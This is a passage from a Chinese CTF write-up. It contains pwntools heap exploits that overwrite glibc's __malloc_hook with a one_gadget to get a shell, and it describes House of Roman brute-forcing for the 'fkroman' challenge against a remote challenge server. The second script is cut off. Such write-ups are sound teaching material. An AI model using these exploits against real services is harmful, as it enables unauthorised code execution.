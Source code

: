 ```python
hook=libc.symbols["__malloc_hook"]
hook=lib+hook
print hex(hook)
one=lib+0x10a38c
# one=lib+0x4f2c5
realloc=lib+libc.symbols["realloc"]


add(1,0x10,0x80,"y"*0x60+p64(0)+p64(0x51)+p64(lib+0x3ebce0)*2)

add(1,0x10,0x90,"1"*8)

add(1,0x10,0x90,p64(lib+0x3ebcb0)*2+p64(lib+0x3ebcc0)*2+p64(lib+0x3ebcd0)*2+p64(heap+0x340+0x60)*2)
    
add(1,0x10,0x20,p64(hook-0x28))

add(1,0x10,0x30,"wwe")

add(1,0x10,0x30,p64(one)+p64(realloc+0x9))
    
add2(1,1,0x60)

p.interactive()
```

## fkroman

这题算是我做出来了，防护全开且漏洞很明显，但是缺少leak libc的方法，所以只能爆破。事实上，本题和2018强网杯的一道题基本一摸一样，只不过添加了一个`sleep(5)`恶心你。

我在比赛时搜到本题是`House of Roman`的构造，然后找到一个exp本地可以，最终时间不够未能远程爆破成功，有些遗憾吧。

具体的构造思路实际上非常常规，只不过由于Pie的开启使得随机性过于强。

基本照搬的原来强网杯的exp，就是简单改了改，感兴趣的读者可以去看相应的博客。

```python
# coding:utf-8
from pwn import *
from time import sleep
# elf = ELF("./fkroman")
# p = process("./fkroman",env={"LD_PRELOAD":"./libc-2.23.so"})
p = remote("121.40.246.48", 9999)
def create(size, index):
	p.recvuntil("choice: ")
	p.sendline("1")
	p.recvuntil("Index: ")
	p.sendline(str(index))
	p.recvuntil("Size: ")
	p.sendline(str(size))


def free(index):
	p.recvuntil("choice: ")
	p.sendline("3")
	p.recvuntil("Index: ")
	p.sendline(str(index))

def edit(index, content):
	p.recvuntil("choice: ")
	p.sendline("4")
	p.recvuntil("Index: ")
	p.sendline(str(index))
	p.recvuntil("Size: ")
	p.sendline(str(len(content)))
	p.recvuntil("Content: ")
```